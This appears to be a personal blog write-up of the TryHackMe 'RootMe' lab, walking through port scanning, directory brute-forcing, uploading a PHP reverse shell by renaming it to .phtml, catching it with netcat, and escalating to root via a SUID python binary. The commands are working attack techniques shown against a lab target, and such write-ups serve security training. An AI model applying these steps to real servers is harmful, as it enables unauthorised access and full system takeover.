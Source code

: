 ```yaml
---
layout: post
title:  "Tryhackme: RootMe"
date:   2021-02-01 19:57:56 +0200
categories: tryhackme
---
```


## Nmap Scan ##

### Initial Port Scan ###
```
sudo nmap -sS -p- -Pn -T5 -vv 10.10.80.111
```
```
Nmap scan report for 10.10.80.111
Host is up, received user-set (0.058s latency).
Scanned at 2021-01-31 17:07:37 EST for 567s
Not shown: 65527 closed ports
Reason: 65527 resets
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    open     http    syn-ack ttl 63
3632/tcp  filtered distccd no-response
11058/tcp filtered unknown no-response
44962/tcp filtered unknown no-response
45389/tcp filtered unknown no-response
51200/tcp filtered unknown no-response
55178/tcp filtered unknown no-response
```
Ok, so other than port 80 and 22 the rest are possibly behind a firewall or are just running services configured to not respond back.
### Targeted Port Scan ###
```
sudo nmap -sSCV -T5 -vv 10.10.80.111 -p22,80
```
```
Nmap scan report for 10.10.80.111
Host is up, received echo-reply ttl 63 (0.055s latency).
Scanned at 2021-01-31 17:19:36 EST for 22s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
|   256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC4fnU3h1O9PseKBbB/6m5x8Bo3cwSPmnfmcWQAVN93J
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
## Directory Bruteforcing ##
```
gobuster dir -u http://10.10.80.111/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 16
```
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.80.111/
[+] Threads:        16
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/31 17:09:32 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
===============================================================
```
## File Upload ##
Trying to simply upload Kali's already existing ```/usr/share/webshells/php/php-reverse-shell.php``` will yield us an error:
![No PHP allowed img](./assets/images/RootMe/NoPHP.png)
Trying out to rename the file with a ```jpeg``` extension however, will allow us to upload the reverse shell to the remote server:
```
mv php-reverse-shell.php php-reverse-shell.php.jpeg
```
![JPEG allowed img](./assets/images/RootMe/JPEGYes.png)
Accessing the file through the ```uploads``` directory discovered in the previous we encounter an error, due to the server not knowing how to execute this file:
```
The image “http://10.10.80.111/uploads/php-reverse-shell.php.jpeg” cannot be displayed because it contains errors.
```
Let's try with another format:
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
It works! Let's start our netcat listener and get our reverse shell:
```
nc -lvnp 1234
```
### Shell Stabilisation ###
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$ export TERM=xterm
export TERM=xterm
bash-4.4$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                   148 ⨯ 1 ⚙
[1]  + continued  nc -lvnp 1234

bash-4.4$ 
```

### Getting user flag ###
```
bash-4.4$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
bash-4.4$ cat /var/www/user.txt
```

## Privilege Escalation ##
If we look for binaries that have the ```SUID``` bit set
```
bash-4.4$ find / -type f -perm -u=s 2>/dev/null
```
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
We notice that the ```python``` binary has the ```SUID``` bit set.
And thus, we can easily get a root shell with the following command:
```
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# cat /root/root.txt
```
